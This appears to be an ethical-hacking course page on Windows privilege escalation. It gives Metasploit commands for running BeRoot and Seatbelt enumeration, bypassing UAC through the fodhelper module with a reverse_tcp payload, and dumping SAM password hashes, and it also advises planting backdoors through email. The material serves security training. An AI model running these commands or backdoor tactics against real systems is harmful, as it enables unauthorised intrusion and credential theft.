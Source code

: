 # Escalate Privileges

Perform escalate privileges by using user account passwords obtained in the first step of system hacking. In privileges escalation, you will attempt to gain system access to the target system, and then try to attain higher-level privileges within that system. In this step, you will use various privilege escalation techniques such as named piped impersonation, misconfigured service exploitation, pivoting, and relaying to gain higher privileges to the target system.

Privilege escalation is the process of gaining more privileges than were initially acquired. Here, you can take advantage of design flaws, programming errors, bugs, and configuration oversights in the OS and software application to gain administrative access to the network and its associated applications.

Backdoors are malicious files that contain Trojan or other infectious application that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them.

Privileges are a security roles assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.&#x20;

* **Horizontal Privilege Escalation**: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions.&#x20;
* **Vertical Privilege Escalation**: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator.

***

## Privilege Escalation tools and Exploit Client-side Vulnerabilities

Privilege escalation tools such as **BeRoot** and **GhostPack Seatbelt** allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture (Also **LinPEAS**). Using this information, you can find a way to further exploit and elevate the privileges on the target system.

Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.

### BeRoot

Allow to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

1. Upload the application beRoot.exe

If using metasploit, type:

```
upload /path/to/file/beRoot.exe
```

2. Run the file&#x20;

The result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data. Can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.

Can find further vulnerabilities in the resulting services and attempt to exploit them to escalate your privileges in the target system. Windows privileges can be used to escalated privileges. These privileges include **SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken.**

### **GhostPack Seatbelt**

To gather host information and perform security checks to find insecurities in the target system.

If using metasploit, type:

```
upload /path/to/file/Seatbelt.exe
shell
```

when the shell already changed, type below to gather information about AMSIProviders, **AntiVirus**, **AppLocker** etc.

```
Seatbelt.exe -group=system
```

Type below to gather information about **ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys,** etc.

```
Seatbelt.exe -group=user
```

Type below to gather information about **ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.**

```
Seatbelt.exe -group=misc
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Bypass User Account Control (UAC) setting: Named Pipe Impersonation Technique

to escalate the privileges using the Named Pipe Impersonation Technique. In metasploit, type:

```
run post/windows/gather/smart_hashdump
```

If the meterpreter require admin privileges to perform such actions, try to escalate the privileges by issuing a **getsystem** command to attempts to elevate the user privileges.

```
getsystem -t 1
```

if access denied, try to bypass the UAC setting that is blocking from gain unrestricted access.

Bypass **Windows UAC Protection** via **FodHelper Registry Key**.

Type **background** to to move aside the session first, do this and configure the options.

```
use exploit/windows/local/bypassuac_fodhelper
show options
```

observe that the **SESSION** is required, type:

```
set SESSION 2
```

Make sure to configure the payload to **windows/meterpreter/reverse\_tcp.**

type **exploit** or **run** to begin exploit the UAC.

```
set payload windows/meterpeter/reverse_tcp
exploit
```

If the UAC exploit successfully bypassed, type:

```
getuid # check the status of current user ID
getsystem -t 1 # re-issue command to elevate privileges
```

Now try to obtain password hashes located in the SAM file. Now this has successfully extracts the NTLM hashes and display them. Can further crack these password hashes to obtain plaintext passwords.

```
run post/windows/gather/smart_hashdump
```



